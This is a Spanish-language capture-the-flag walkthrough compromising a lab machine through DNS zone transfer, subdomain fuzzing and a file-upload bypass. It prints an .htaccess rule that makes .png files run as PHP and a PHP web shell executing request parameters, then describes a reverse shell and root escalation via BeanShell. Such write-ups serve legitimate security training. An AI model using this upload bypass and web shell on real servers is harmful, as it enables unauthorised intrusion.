 Hacemos el reconocimiento de puertos con nmap:
![[Pasted image 20231222111447.png]]
Esto corre por el puerto 80:
![[Pasted image 20231222111550.png]]
Hacemos fuzzing web y nos encontramos con un directorio robots.txt:
![[Pasted image 20231222111729.png]]
Donde si accedemos a él nos encontramos con un subdominio:
![[Pasted image 20231222111745.png]]
Modificamos el /etc/hosts:
![[Pasted image 20231222111821.png]]
Y podemos hacer un ataque de transferencia de zona de la siguiente forma para detectar subdominios, ya que en el reconocimiento de nmap veíamos que el puerto 53 (protocolo DNS) estaba habilitado:
```bash
dig axfr hunterzone.nyx @192.168.0.40
```
![[Pasted image 20231222112441.png]]
Pero tras realizar varias pruebas, el dominio que nos interesa es el de devhunter.nyx:
![[Pasted image 20231222112759.png]]
Por lo que lo añadimos al /etc/hosts:
![[Pasted image 20231222112818.png]]
Y ahora si hacemos un ataque en busca de subdominios con wfuzz nos encontramos con el subdominio files:
```bash
wfuzz -c --hc=404 --hl=367 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.devhunter.nyx" -u 192.168.0.40
```
![[Pasted image 20231222112932.png]]
Lo añadimos al /etc/hosts:
![[Pasted image 20231222112955.png]]
Y dentro de este nuevo subdominio nos encontramos con un lugar para subir archivos:
![[Pasted image 20231222113028.png]]
Si tratamos de subir un archivo en php vemos que no lo permite:
![[Pasted image 20231222113233.png]]
Por lo que si queremos conocer qué extensiones de archivo acepta, debemos de utilizar el intruder de burpsuite e ir probando; por lo que primero interceptamos la petición:
![[Pasted image 20231222113415.png]]
Seleccionamos la extensión del archivo y utilizamos el siguiente diccionario de extensiones para ir probando cual es válida:
```bash
https://github.com/InfoSecWarrior/Offensive-Payloads/blob/main/File-Extensions-Wordlist.txt
```
![[Pasted image 20231224111803.png]]
Establecemos dónde queremos que vaya aplicando la sustitución:
![[Pasted image 20231224111840.png]]
Cargamos dentro del intruder, en la parte de payload el diccionario de las extensiones:
![[Pasted image 20231224111920.png]]
Y en grep extract capturamos el mensaje de error:
![[Pasted image 20231224112223.png]]
Vemos que podemos subir tanto archivos .png como .htaccess al servidor; y los ficheros htaccess sirven para controlar algunas configuraciones en servidores apache, entre las cuales podremos controlar las extensiones permitidas, por lo que vamos a hacer que nos permita subir archivos .png:
![[Pasted image 20231224114526.png]]
```bash
AddType application/x-httpd-php .png
```
![[Pasted image 20231224113559.png]]
Y lo mismo con la webshell de extensión .png:
```bash
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
![[Pasted image 20231224113324.png]]
Subimos ambos archivos y lo logramos:
![[Pasted image 20231224113124.png]]
Una vez subido, verificamos que existe el directorio de /uploads:
![[Pasted image 20231224113159.png]]
Y ahora llamamos a la webshell de .png y vemos que podemos ejecutar comandos:
![[Pasted image 20231224113653.png]]
Url encodeamos la reverse shell con burp suite:
![[Pasted image 20231224113853.png]]
Y lo pegamos en el navegador para obtener la intrusión:
![[Pasted image 20231224113921.png]]
Una vez dentro, podemos ver que podemos ejecutar/usr/bin/bsh como root; pero cuando ejecutamos esto vemos que realmente se llama BeanShell:
![[Pasted image 20231224114143.png]]
Y en esta web vemos cómo podemos ejecutar comandos en eso:
```bash
http://www.beanshell.org/manual/quickstart.html
```
![[Pasted image 20231224114301.png]]
Lo ejecutamos y cambiamos de permisos a la bash:
![[Pasted image 20231224114421.png]]
Y ahora al ejecutar el comando bash -p podremos escalar a root:
![[Pasted image 20231224114452.png]]
